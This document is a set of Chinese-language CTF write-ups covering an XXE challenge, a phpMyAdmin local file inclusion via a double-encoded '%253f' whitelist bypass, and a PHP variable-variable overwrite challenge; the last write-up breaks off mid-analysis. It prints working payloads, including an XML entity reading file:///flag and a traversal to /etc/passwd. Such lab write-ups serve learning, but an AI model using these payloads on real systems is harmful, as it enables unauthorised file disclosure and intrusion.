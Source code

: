 ## [NCTF2019]Fake XML cookbook

### ![image-20240429201754032](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20240429201754032.png)

抓包发现

![image-20240429201833095](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20240429201833095.png)

那就发现是有标签，xxe漏洞：

### 知识点：xxe漏洞有回显

![](C:\Users\86182\Pictures\Screenshots\屏幕截图 2024-04-29 200717.png)

<?xml version="1.0"?>

<!DOCTYPE ANY [
  <!ENTITY admin SYSTEM "file:///flag">
  ]>
(下面这是题目自带的)
<user>&asdadw;</user><password>sdhaf</password>

基本格式将标签实例化,&的使用使得可以引用<!ENTITY admin SYSTEM "file:///flag">这句话，可以进行文件读取，一般是抓包时发现标签是可以使用

![image-20240429202421651](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20240429202421651.png)

## [GWCTF 2019]我有一个数据库

问题在index.php的55~63:



```php
// If we have a valid target, let's load that script instead
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
```

这里对于参数共有5个判断，判断通过就可以通过Include包含文件。
 前面3个判断基本可以忽略，后两个：
 $target_blacklist:



```php
$target_blacklist = array (
    'import.php', 'export.php'
);
```

Core::checkPageValidity($_REQUEST['target']):
 代码在libraries\classes\Core.php的443~476：



```php
    public static function checkPageValidity(&$page, array $whitelist = [])
    {
        if (empty($whitelist)) {
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            return false;
        }

        if (in_array($page, $whitelist)) {
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;
    }
```

这里验证白名单：



```php
public static $goto_whitelist = array(
        'db_datadict.php',
        'db_sql.php',
        'db_events.php',
        'db_export.php',
        'db_importdocsql.php',
        'db_multi_table_query.php',
        'db_structure.php',
        'db_import.php',
        'db_operations.php',
        'db_search.php',
        'db_routines.php',
        'export.php',
        'import.php',
        'index.php',
        'pdf_pages.php',
        'pdf_schema.php',
        'server_binlog.php',
        'server_collations.php',
        'server_databases.php',
        'server_engines.php',
        'server_export.php',
        'server_import.php',
        'server_privileges.php',
        'server_sql.php',
        'server_status.php',
        'server_status_advisor.php',
        'server_status_monitor.php',
        'server_status_queries.php',
        'server_status_variables.php',
        'server_variables.php',
        'sql.php',
        'tbl_addfield.php',
        'tbl_change.php',
        'tbl_create.php',
        'tbl_import.php',
        'tbl_indexes.php',
        'tbl_sql.php',
        'tbl_export.php',
        'tbl_operations.php',
        'tbl_structure.php',
        'tbl_relation.php',
        'tbl_replace.php',
        'tbl_row_action.php',
        'tbl_select.php',
        'tbl_zoom_select.php',
        'transformation_overview.php',
        'transformation_wrapper.php',
        'user_password.php',
    );
```

之后phpMyAdmin的开发团队考虑到了target后面加参数的情况，通过字符串分割将问号的前面部分取出，继续匹配白名单，然后经过一遍urldecode后再重复动作。
 所以这里我们可以选取白名单里的任意一个页面。
 构造:

?经过两次url编码变成%253f绕过验证

```undefined
target=db_datadict.php%253f/../../../../../../../../etc/passwd
```

绕过所有的检查。
 最后在include包含文件时，斜杠前面的部分包括问号会被当作文件名。
 ps:如果是linux系统下，就更简单了，直接通过问号截断就行了。

最后将/etc/passwd换成/flag

得到flag

## [BJDCTF2020]Mark loves cat

F12，抓包发包，dirsearch扫描，githack下文件。/.git源码泄露

发现源码下面还有

<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

发现这个文件，开始构建参数代码审计：

关键点（不一定一定是那个最后的才能起作用）：

1.直接foreach($_GET as $x => $y){    if($_GET['flag'] === $x && $x !== 'flag'){  //不能同时 flag的值等于某个键名，那个键值又是flag        exit($handsome);    } }利用这句话，可以知道是?flag=a&a=flag

现在就是$handsome等于不等于$flag